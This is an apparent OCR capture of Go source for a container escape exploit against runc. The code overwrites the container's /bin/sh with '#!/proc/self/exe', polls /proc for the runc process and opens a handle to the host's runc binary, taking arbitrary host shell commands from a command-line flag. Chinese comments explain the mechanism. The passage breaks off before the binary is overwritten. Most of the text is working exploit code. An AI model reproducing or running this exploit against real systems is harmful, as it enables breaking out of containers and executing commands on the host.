 ```go

var shellCmd string

func init() {
	flag.StringVar(&shellCmd, "shell", "", "Execute arbitrary commands")
	flag.Parse()
}

func main() {
	// This is the line of shell commands that will execute on the host
	var payload = "#!/bin/bash \n" + shellCmd
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	// 用 #!/proc/self/exe 覆盖容器内的 /bin/sh，导致下次执行 /bin/sh 时会重定向到 runc
    // 不对，是为了让 non-dumpable 的 runc-init 进程在 exec 时调用自身，去掉 non-dumpable 标志，
    // 从而可以获取到 /proc/self/exe 指向的宿主机上 runc 二进制文件
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through alpl processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		// 遍历容器内的 /proc/<pid>/cmdline 内容，找到 runc 对应进程号
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				fmt.Println("[+] cmdline:", fstring)
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	// 用 readonly 打开 runc 进程对应的 /proc/<pid>/exe 的 magic links，保存到攻击进程的文件描述符
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
```